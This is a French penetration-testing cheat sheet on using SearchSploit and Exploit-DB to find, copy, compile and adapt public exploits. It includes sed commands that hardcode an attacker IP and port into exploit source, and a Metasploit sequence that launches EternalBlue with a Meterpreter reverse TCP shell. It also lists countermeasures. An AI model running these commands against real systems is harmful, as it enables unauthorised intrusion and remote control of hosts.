

**SearchSploit** est un outil intégré à **Exploit-DB** permettant de rechercher localement des exploits disponibles sans connexion internet. Il constitue une ressource fondamentale lors de la phase d'**Exploitation** pour identifier des vecteurs d'attaque après une phase de **Vulnerability Assessment** et d'**Enumeration Methodology**.



> [!warning] Prérequis
> Nécessite une énumération précise de la version du service (ex: **nmap -sV**) pour des résultats pertinents.

> [!danger] Attention
> Toujours lire le code source de l'exploit avant exécution pour éviter les backdoors ou les comportements destructeurs.

> [!danger] Danger
> L'exécution d'exploits non testés en environnement de production peut causer un crash du service (**DoS**).

> [!tip] Astuce
> Utiliser **-w** pour obtenir l'URL directe vers **Exploit-DB** si le fichier local est corrompu.

## Installation et Mise à Jour

### Installation de la base de données
```bash
sudo apt install exploitdb
```

### Mise à jour de la base de données
```bash
searchsploit -u
```

### Mise à jour manuelle
```bash
sudo git -C /opt/exploitdb/ pull
```

## Recherche d’Exploits

### Recherche par mots-clés
```bash
searchsploit windows smb
searchsploit apache tomcat
searchsploit CVE-2021-34527
```

### Recherche avec options avancées
| Option | Description |
| :--- | :--- |
| **--exact** | Recherche exacte du terme |
| **--title** | Filtre sur le titre de l'exploit |
| **--platform** | Filtre par système d'exploitation |
| **--type** | Filtre par type (remote, local, dos, etc.) |
| **-t** | Affiche plus de détails |
| **--ext** | Filtre par extension de fichier |

```bash
searchsploit --exact "Microsoft Windows"
searchsploit --title "wordpress"
searchsploit --platform linux
searchsploit --type remote mysql
searchsploit -t "Apache Struts"
searchsploit "linux kernel privilege"
searchsploit --ext ".sh"
searchsploit "Windows" | grep -v "denial"
```

## Analyse de la fiabilité des exploits (Exploit-DB vs code source)
L'analyse manuelle est critique pour valider la fiabilité d'un exploit. **Exploit-DB** fournit souvent des preuves de concept (PoC) qui peuvent être obsolètes ou spécifiques à une architecture.
- **Vérification des headers** : Rechercher les commentaires indiquant les versions cibles, les offsets mémoire ou les dépendances.
- **Analyse du code** : Vérifier si l'exploit effectue des appels système dangereux ou s'il tente d'écrire dans des zones mémoire non autorisées.
- **Comparaison** : Si le code semble complexe, comparer avec des implémentations sur **Exploit Development** pour valider la logique de l'exploit.

## Compilation d'exploits (gcc/g++)
La plupart des exploits C/C++ doivent être compilés pour l'architecture cible.
```bash
# Compilation standard
gcc exploit.c -o exploit

# Compilation pour architecture spécifique (ex: 32 bits sur système 64 bits)
gcc -m32 exploit.c -o exploit

# Compilation avec bibliothèques additionnelles
gcc exploit.c -o exploit -lpthread
```

## Modification et adaptation d'exploits (hardcoding IP/port)
Il est fréquent de devoir adapter le code source pour pointer vers l'adresse IP de la machine attaquante (LHOST) ou le port d'écoute (LPORT).
```bash
# Utilisation de sed pour remplacer les valeurs par défaut
sed -i 's/127.0.0.1/10.10.14.5/g' exploit.c
sed -i 's/4444/9001/g' exploit.c

# Vérification des modifications
grep -E "10.10.14.5|9001" exploit.c
```

## Gestion des dépendances d'exploits
Certains exploits nécessitent des bibliothèques spécifiques ou des environnements Python particuliers.
- **Python** : Vérifier la version requise (2.7 vs 3.x) et installer les dépendances via `pip`.
- **Bibliothèques C** : Utiliser `ldd` pour vérifier les dépendances dynamiques d'un binaire compilé.
```bash
# Vérifier les dépendances d'un binaire
ldd ./exploit

# Installer des dépendances Python
pip install -r requirements.txt
```

## Exploitation d’un CVE

### Recherche et gestion des CVE
```bash
searchsploit CVE-2021-34527
searchsploit -j CVE-2023-23397
searchsploit -p CVE-2017-0143
```

## Copier ou Lire un Exploit

### Manipulation de fichiers
```bash
searchsploit -p "Windows Kernel Exploit"
cp /usr/share/exploitdb/exploits/windows/local/42315.c /tmp/
searchsploit -x exploits/windows/local/42315.c
wget https://www.exploit-db.com/download/42315
nano /usr/share/exploitdb/exploits/linux/local/37292.c
```

## Rechercher des Exploits en Ligne
```bash
searchsploit -w "Apache Struts"
```

## Intégration avec Metasploit

### Utilisation dans msfconsole
```bash
msfconsole
search windows smb
searchsploit -m windows/smb/42315.rb
```

### Lancement d'un module
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

## Rechercher des Exploits pour un Logiciel Spécifique
```bash
searchsploit "WordPress 5.8"
```

## Utilisation avec Nmap et Nikto

### Corrélation avec les outils de scan
```bash
nmap -sV --script vuln <target>
searchsploit "Apache 2.4.49"

nikto -h <target>
searchsploit "PHP 7.4"
```

## Rechercher des Exploits pour Web Applications
```bash
searchsploit -t webapps "Joomla"
```

## Sécurité et Contre-Mesures

*   Mise à jour régulière des logiciels pour corriger les vulnérabilités connues.
*   Déploiement d'un **IDS/IPS** (**Snort**, **Suricata**) pour détecter les signatures d'attaques.
*   Configuration d'un firewall pour restreindre l'exposition des services.
*   Désactivation des protocoles obsolètes (**SMBv1**, **Telnet**).
*   Audit de sécurité continu via **Nessus**, **OpenVAS** ou **Qualys**.